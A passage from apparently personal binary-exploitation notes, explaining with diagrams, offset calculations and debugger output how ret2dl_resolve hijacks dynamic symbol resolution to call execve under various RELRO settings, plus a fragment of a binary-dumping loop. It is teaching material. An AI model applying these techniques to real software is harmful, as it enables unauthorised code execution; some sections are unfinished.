offset = 0x7f                                           

for i in range(0x100):                      
    offset = leak_binary_write(i*offset,0x400000)
    print(f'{hex(i*offset)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```

</div>
</details>


# ret2dl_resolve

<details>
    <summary>how _dl_runtime_resolve works </summary>
        <div>
		
```
_dl_runtime_resolve(elf_info , index )
				|
				|
  ------------------------------
  |
  |	 ___________________          ___________________          ___________________
  |	| Relocation table  |        |   Symbol table    |        |   String table    |
  |	|_____rel.plt_______|        |_____.dynsym_______|        |______.dynstr______|
  |	|       ...         |        |       ...         |        |       ...         |
  |	|___________________|        |___________________|        |___________________|
  >>>>>>|      r_offset     |        |      st_name      |        |      read\0       |
	|___________________|        |___________________|        |___________________|
	|      r_info       | ____   |      st_info      |        |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|       ...         |     |  |        ...        |    |>>>|      puts\0       |
	|___________________|     |  |___________________|    |   |___________________|
	|      r_offset     |     |  |      st_name      | ___|   |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|      r_info       |     >>>|      st_info      |        |                   |
	|___________________|        |___________________|        |___________________|

```
		
so first we enter the call to puts.

since this is the first call to puts it is not binded we need to setup the arguments for _dl_runtime_resolve(elf_info , index )

pushes the index in this case 0x0       \
```
	0x401030                  endbr64        
 →   0x401034                  push   0x0       
     0x401039                  bnd    jmp 0x401020      
```
pushes the elf_info 0x404008:	0x00007ffff7ffe190       \
```
→   0x401020                  push   QWORD PTR [rip+0x2fe2]        # 0x404008       
     0x401026                  bnd    jmp QWORD PTR [rip+0x2fe3]        # 0x404010       
     0x40102d                  nop    DWORD PTR [rax]       
```
than we look into the rel.plt        

we pushed 0 so we look at the first entry of the Relocation table and find the r_info holding 100000007h for now we only care about the 1 which is the offset for the Symbol table       
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Relocation_table.png">

in the Symbole table we look at offset 1 and find the st_name which holds the offset 10h
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Symbole_table.png">
		
in the String table we look at ofset 10h and find the string puts
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/String_Table.png">


</div>
</details>




<details>
    <summary>ret2dl_resolve method 1. (PIE is off // RELRO off)</summary>
        <div>
		


Prerequisites
1. IP controll
2. ability to write to memory

in the .dynamic section there is a pointer to the String table .dynstr if RELRO is off this section is actually writeable we can change the pointer to.
if we cange d_val to a section in the .bss we can basically write our own String table there and simply could replace puts with execve.


```
 ___________________      ___________________ 
|   Symbole table   |    |    String table   | <<<______
|______.dynsym______|    |______.dynstr______|          |
|        ...        |    |        ...        |          |
|___________________|    |___________________|          |
|       st_name     |_   |       read\0      |          |
|___________________| |  |___________________|          |
|       st_info     | |>>|       puts\0      |          |
|___________________| .  |___________________|          |
        ...............                .................|_______
	.	 ___________________   .  ___________________   |
	.	|   Writeable area  |<<. |      .dynamic     |  |
	.	|________.bss_______|    |___________________|  |
	.	|        ...        |    |        ...        |  |
	.	|___________________|    |___________________|  |
	.	|       read\0      |    |  d_tag: DT_STRTAB |  |
	.	|___________________|    |___________________|  |
	.....>>>|       execve\0    |    |       d_val       |__|
		|___________________|    |___________________|

```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/nRELROdynamicSection.png">		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynstr.png">

</div>
</details>


<details>
    <summary>ret2dl_resolve method 2. (PIE is off// partial RELRO)</summary>
        <div>




Prerequisites
1. IP controll
2. ability to write to memory

```
  [ 6] .dynsym     00000000004003c0  symbole table
  [ 7] .dynstr     0000000000400438  string table
  [11] .rela.plt   00000000004004d8  relocation table
  [22] .dynamic    0000000000403e20  dynamic section
  [24] .got.plt    0000000000404000  GOT
  [26] .bss        0000000000404038  .bss we can write here

```

we can create a fake .rel.plt entry in the .bss and pass a huge index to _dl_runtime_resolve(elf_info,index)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/relplt.png">

we set 0x1A6 as index.   \
runtime_resolve would than look for the .rel.plt entry @ 0x404038 which is in .bss we have controll over and can place a fake .rel.plt struct here that contains the fake r_info.   
		
each .rel.plt entry is 24 bytes in size.    	
		
```
addr_fake_struct - addr_of_.rel.plt = byte_offset / 24 = index_offset 
0x404038 - 0x4004d8 = 0x3B60/24 = 0x1A6   
```

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynsym.png">
we set our fake r_info to 0x286 and place our fake .dynsym struct that contains the fake st_name entry directly under our fake .rel.plt struct   /

each .dynsym entry is 18 bytes in size 
		
```
(addr_fake_struct + offset_fake_dynsym) - addr_of_.dynsym = byte_offset / 18 = r_info_offset 
(0x404038+24) - 0x04003c0     				#+24 cause our fake_.rel.plt is 24 bytes
0x404050 - 0x04003c0 = 0x3c90/18 = 0x286    
```	

here we set the st_name offset to 0x3c2a.    \
starting @ 0x400438 to our fake string @ 0x404062    
```
(addr_fake_struct + offset_fake_dynsym + offset_fake_dynstr) - addr_of_.dynstr = st_name 
(0x404038+24+18) - 0x400438    
0x404062 - 0x400438 = 0x3c2a    
```
and as last step we set what libc function we want to resolve into our fake .dynstr entry @ 0x404062



```
_dl_runtime_resolve(elf_info , index)
				|  
                       _________|                   
 ___________________  |           
| Relocation table  | |        
|______.rel.plt_____| |               
|        ...        | |               
|___________________| |               
|       r_offset    | |               
|___________________| |               
|       r_info      |<|               
|___________________| .     
                      .
                      ..........
	 ___________________   .
	|    Writable area  |  .
	|________.bss_______|  .
	|      r_offset     |  .
	|___________________|  .
 .......|      r_info       |<..
 .	|___________________|
 .      |        ...        |
 .      |___________________|
 .	|      st_name      |
 .	|___________________|
 .....>>|      st_info      |...   
	|___________________|  . 
	|        ...        |  . 
	|___________________|  . 
	|      execve\0     |<<. 
	|___________________|


```
This aproach will not work allways:
If the Dynamic loader checks the boundaries.
If symbol versioning and huge pages are enabled. 


</div>
</details>


	
	
<details>
    <summary>ret2dl_resolve method 3. (PIE is off//partial RELRO)</summary>
        <div>


Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(reg) + offset) = value`

```
mov rax, [rax]				#get the pointed addr into rax
mov [rax + rdx], rdi		#add rdx to pointed addr and mov rdi into it
```

elf_info points to a link_map struct    \
the link_map holds a pointer to the .dynstr table    \
the elf_info is allways available at a reserved GOT entry GOT[1]

this is like the first attack but we need a specific gadget to exploit this sucesfully.

we know the pointer to the link_map but we actually have to rewrite an entry in the link map.    \


```
gef➤  got

GOT protection: No RelRO | GOT functions: 3
 
[0x403368] puts@GLIBC_2.2.5  →  0x7ffff7e435a0
[0x403370] __stack_chk_fail@GLIBC_2.4  →  0x7ffff7eeeb00
[0x403378] gets@GLIBC_2.2.5  →  0x7ffff7e42af0

```

```
gef➤  tel 0x403368-32
0x0000000000403348│+0x0000: 0x0000000000000000
0x0000000000403350│+0x0008: 0x0000000000403160  →  0x0000000000000001            #pointer to link_map struct
0x0000000000403358│+0x0010: 0x0000000000000000
0x0000000000403360│+0x0018: 0x0000000000000000
0x0000000000403368│+0x0020: 0x00007ffff7e435a0  →  <puts+0> endbr64 
0x0000000000403370│+0x0028: 0x00007ffff7eeeb00  →  <__stack_chk_fail+0> endbr64 
0x0000000000403378│+0x0030: 0x00007ffff7e42af0  →  <gets+0> endbr64 
0x0000000000403380│+0x0038: 0x00007ffff7de2fc0  →  <__libc_start_main+0> endbr64 
0x0000000000403388│+0x0040: 0x0000000000000000
0x0000000000403390│+0x0048: 0x0000000000000000
```

```
gef➤  tel 20 0x0000000000403160
0x0000000000403160│+0x0000: 0x0000000000000001
0x0000000000403168│+0x0008: 0x0000000000000001
0x0000000000403170│+0x0010: 0x000000000000000c
0x0000000000403178│+0x0018: 0x0000000000401000  →  <_init+0> endbr64 
0x0000000000403180│+0x0020: 0x000000000000000d
0x0000000000403188│+0x0028: 0x0000000000401248  →  <_fini+0> endbr64 
0x0000000000403190│+0x0030: 0x0000000000000019
0x0000000000403198│+0x0038: 0x0000000000403150  →  0x0000000000401170  →  <frame_dummy+0> endbr64 
0x00000000004031a0│+0x0040: 0x000000000000001b
0x00000000004031a8│+0x0048: 0x0000000000000008
0x00000000004031b0│+0x0050: 0x000000000000001a
0x00000000004031b8│+0x0058: 0x0000000000403158  →  0x0000000000401140  →  <_do_global_dtors_aux+0> endbr64 
0x00000000004031c0│+0x0060: 0x000000000000001c
0x00000000004031c8│+0x0068: 0x0000000000000008
0x00000000004031d0│+0x0070: 0x000000006ffffef5
0x00000000004031d8│+0x0078: 0x0000000000400368  →  0x0000000100000001
0x00000000004031e0│+0x0080: 0x0000000000000005
0x00000000004031e8│+0x0088: 0x0000000000400418  →  0x6f732e6362696c00		#this it the pointer to .dynstr
0x00000000004031f0│+0x0090: 0x0000000000000006
0x00000000004031f8│+0x0098: 0x0000000000400388  →  0x0000000000000000
```

it is writable
```
gef➤  vmmap 0x00000000004031e8
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000403000 0x0000000000404000 0x0000000000002000 rw- /home/bex/Desktop/PWN Guide/ret2dlsrc/a.out

```




``` 
         ___________________       ___________________
	|        GOT        |  |>>|    String table   |
	|______.plt.got_____|  |>>|______.dynstr______| 
	|        got[0]     |  |  |        ...        |  
	|___________________|  |  |___________________|  
	|        got[1]     |  |  |       read\0      | 
 |------|___________________|  |  |___________________| 
 |	|        got[2]     |  |  |       puts\0      | 
 |	|___________________|  |  |___________________|
 |                             |
 |	 ___________________   |   ___________________  
 |	|                   |  |.>|  Writable area    |  
 |	|___________________|  |.>|___________________|  
 |	|        ...        |  |. |        ...        |  
 |	|___________________|  |. |___________________|  
 |	|  l_info[DT_HASH]  |  |. |       read\0      |  
 |	|___________________|  |. |___________________|  
 |---->>| l_info[DT_STRTAB] |--|. |       execve\0    |
	|___________________|     |___________________|
	| l_info[DT_SYMTAB] |
	|___________________|

```
</div>
</details>


		
	
<details>
    <summary>ret2dl_resolve method 4. (PIE is off//full RELRO)</summary>
        <div>

in this methode we use a debugging feature DT_DEBUG in the .dynamic section that points to a debugger data struct. (it is used by e.g. gdb to track loading of new librarys)

this DT_DEBUG data struct also holds a pointer to the link_map

but we still have to find the dl_runtime_resolve() cause the reserved GOT entry for it is gone as well as the elf_info link_map reserver GOT

the link_map is part of a linked list.
If we go to the next entry in the liniked list 


Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(rax) + offset) = value`


```
mov rax, [rax]
mov [rax + offset],value
```

4. 

```
mov pointer, [pointer]
mov reg, [pointer + offset]
mov [destination], reg
```
5.
```
mov reg, [source]
mov [esp + offset], reg
```

```
     ___________________                     ___________________         ___________________ 
    |   Dynamic section |                   |       [HEAP]      |       |        GOT        |  
    |______.dynamic_____|                   |___________________|     |>|______.plt.got_____|    
    |        ...        |                   |         ...       |     | |       GOT[0]      |   
    |___________________|                   |___________________|     | |___________________|   
    |  d_tag: DT_DEBUG  |                   |      r_version    |     | |       GOT[1]      |      
    |___________________|                   |___________________|     | |___________________|      
    |       d_val       | ---------------->>|        r_map      |     | |       GOT[2]      |---_dl_runtime_resolve
    |___________________|                   |___________________|--|  | |___________________|    
    |        ...        |                   |         ...       |  |  | |       GOT[3]      | 
    |___________________|                   |___________________|  |  | |___________________|   
    |  d_tag: DT_STRTAB |           |-------|l_info [DT_STRTAB] |  |  | |        ...        |  
    |___________________|           | ......|___________________|  |  | |___________________|  
 ---|       d_val       |           | .     |         ...       |  |  |    
 |  |___________________|           | .     |___________________|  |  |   
 |                                  | .   --|       l_next      |<-|  |
 |                                  | .   | |___________________|     |
 |                                  | .   | |         ...       |     |
 |                                  | .   | |___________________|     |
 |                                  | .   |>| l_info[DT_PLTGOT] |-----|
 |                                  | .     |___________________|
 |   ___________________            | .
 ->>|    String table   |<<---------- .
    |______.dynstr______|              .
    |        ...        |               ................
    |___________________|        ___________________   .
    |       read\0      |       |    Writable area  |  .
    |___________________|       |________.bss_______|<<.
    |       puts\0      |<--    |        ...        |
    |___________________|  |    |___________________|
    |        ...        |  |    |       read\0      |
    |___________________|  |    |___________________|
                           |..>>|       execve\0    |
     ___________________   |.   |___________________| 
    |   Symbol table    |  |.  
    |______.dynsym______|  |.    
    |        ...        |  |.   
    |___________________|  |.   
    |      st_name      |--|.    
    |___________________| 
    |      st_info      |    
    |___________________|   
    |        ...        |    
    |___________________| 
```
IN PROGESS
		
		
		
</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
